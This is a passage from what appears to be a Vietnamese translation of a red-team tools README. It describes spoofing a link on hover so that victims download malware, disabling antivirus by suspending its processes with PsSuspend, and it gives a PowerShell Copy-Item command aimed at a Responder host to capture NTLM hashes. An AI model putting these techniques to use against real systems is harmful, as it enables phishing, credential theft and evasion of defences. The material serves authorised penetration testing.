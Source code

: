**Mô tả:** *Các tác nhân đe dọa đã được quan sát sử dụng kỹ thuật này để lừa nạn nhân nhấp vào các liên kết tải xuống phần mềm độc hại được giả mạo trên trang. Sử dụng phương thức **JavaScript PreventDefault** bạn có thể giả mạo liên kết khi di chuột (**hover link**) để hiển thị một liên kết hợp pháp `google.com`, nhưng khi nhấp vào, nạn nhân sẽ được chuyển hướng đến liên kết độc hại của bạn `bing.com`. Tuyệt vời để khiến nạn nhân tải xuống **payload** thông qua một trang web do bạn kiểm soát.*

**Liên kết:** [Tài liệu **PreventDefault**](https://developer.mozilla.org/en-US/docs/Web/API/Event/preventDefault)

### [🔙](#tool-list)Kiểm tra quy tắc **firewall SMB** với **Responder**

![image](https://user-images.githubusercontent.com/100603074/229650380-b651cfc4-896f-4429-b7b4-54d1241a5b39.png)

```powershell
Copy-Item -Path "C:\tmp\" -Destination "\\<ip_running_responder>\c$"
```
**Lưu ý:** Lệnh **PowerShell** này cố gắng sao chép các tệp từ thư mục cục bộ `C:\tmp\` trên máy Windows sang thư mục chia sẻ `c$` trên một địa chỉ IP từ xa (`<ip_running_responder>`) nơi **công cụ Responder** đang chạy và lắng nghe kết nối **SMB**. Nếu tường lửa và cấu hình mạng cho phép kết nối **SMB** ra ngoài, máy Windows sẽ cố gắng xác thực (gửi **hash NTLM**) để truy cập chia sẻ, và **Responder** có thể bắt được **hash** này. Đây là cách kiểm tra các quy tắc firewall outbound.

**Mô tả:** *'Khi thực hiện Đánh giá Rủi ro (**Compromise Assessment**), tôi thường hỏi khách hàng liệu tôi có thể thực hiện một kiểm tra nhanh cuối cùng hay không: `Copy-Item -Path "C:\tmp\" -Destination "\\<ip_running_responder>\c$"`. Nếu **Responder** có thể bắt được **hash**, điều đó có nghĩa là **firewall** cho phép kết nối **SMB** đi ra'*

**Đóng góp:** [@malmoeb](https://twitter.com/malmoeb)

**Liên kết:** [Twitter](https://twitter.com/malmoeb/status/1628272928855826433)

### [🔙](#tool-list)Vô hiệu hóa AV với **SysInternals PsSuspend**

![image](https://github.com/A-poc/RedTeam-Tools/assets/100603074/4519f5ad-c177-4550-b9af-238fa73ad66e)

**Mô tả:** *Sử dụng **công cụ Microsoft Sysinternals PsSuspend.exe**, có thể tạm dừng một số **executable** dịch vụ AV. **Công cụ** được ký bởi Microsoft này có thể được truyền **PID** hoặc Tên của một dịch vụ đang chạy, nó sẽ tạm dừng tiến trình thông qua **API Windows NtSuspendProcess**.*

**Bài đăng trên Blog liên quan:** [Bypassing AV via Process Suspension with PsSuspend.exe](https://medium.com/@a-poc/process-suspension-with-pssuspend-exe-0cdf5d16a3b7)

**Liên kết:** [Twitter](https://twitter.com/0gtweet/status/1638069413717975046)

**Reconnaissance**
====================

### [🔙](#tool-list)[**spiderfoot**](https://github.com/smicallef/spiderfoot)

**SpiderFoot** là một **công cụ** tự động hóa **Open Source Intelligence (OSINT)**. Nó tích hợp với hầu hết mọi nguồn dữ liệu có sẵn và sử dụng một loạt các phương pháp phân tích dữ liệu, giúp dữ liệu dễ dàng điều hướng.
